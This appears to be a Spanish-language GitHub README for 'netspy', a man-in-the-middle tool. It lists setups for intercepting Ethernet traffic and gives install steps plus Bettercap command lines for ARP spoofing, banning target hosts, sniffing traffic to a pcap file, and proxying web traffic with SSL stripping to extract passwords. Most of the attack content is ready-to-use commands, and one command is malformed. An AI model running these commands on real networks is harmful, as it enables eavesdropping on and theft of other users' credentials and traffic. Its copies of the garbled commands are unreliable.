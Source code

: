 # Interceptacion Ethernet

MiTM interceptación de trafico en claro:

Estenarios:

Entre 2 puntos:
Disponer de acceso a uno de los 2 puntos, e instalar: Wireshark, nifsoft, Bettercap, Ethercap, Extension navegador, etc..

Red LAN con HUB o switch sin inteligencia:

Modificar MAC Adrees de un PC conectado a la red, con la MAC Broadcast FF:FF:FF:FF:FF:FF:FF:FF que escurche todo el trafico de la red

En una red LAN con Switch inteligente:

Configurar un port mirrir en el switch para que una copia de todo el trafico se encamine a una sola ethernet del switch, donde hay un PC en modo promiscuo con Wirehark capturando 

En un PC conectado instlar un Proxy, para hacer pasar, encaminar por el el  trafico!

En un PC conectado instala un Proxy trasparente. Usa MAC Spoofing, suplantación de MAC para ver el trafico de otros!

<img style="float:left" alt="Escenarios interceptacion" src="https://github.com/hackingyseguridad/netspy/blob/master/MiTM.png">
#
<img style="float:left" alt="netspy logo" src="https://github.com/hackingyseguridad/netspy/blob/master/netspy.png">

# netspy

# 1.- Descubre elementos de red 2.- Captura y muestra en pantalla el trafico.

# Instalacion:

apt-get install bettercap

apt-get install netdiscover

git clone https://github.com/hackingyseguridad/netspy

cd netspy

chmod 777 netspy

# Uso.:

sh netspy

sh proxynetspy

netdiscover

IMPORTANTE: Para salir del modo de descubrimiento 'net probe on' y empezar a esnifar teclea 'exit'.

# Bettercap v2.9

Escanear toda la Red:

net.probe on; ticker on

Banear tarjet IP con ARP:

set arp.spoof.targets IP; arp.spoof on; set arp.ban on; net.probe on

Capturar trafico en fichero siff_all.pcap:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.output /tmp/sniff_all.pcap; set net.sniff.verbose false; net.sniff on

Ver Trafico:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on

Ver trafico web por proxy y extrae claves:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on; http.proxy on; set http.proxy.sslstrip true

Ver trafico web por proxy y extrae claves de cifrados debiles:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on; http.proxy on;  true; set http.proxy.port 80; set https.proxy.port 443; http.proxy on; https.proxy on; set http.proxy.sslstrip


Versiones antiguas Bettercap: 1.6.1 y 1.6.2 en Python

https://github.com/hackingyseguridad/mitm

www.hackingyseguridad.com
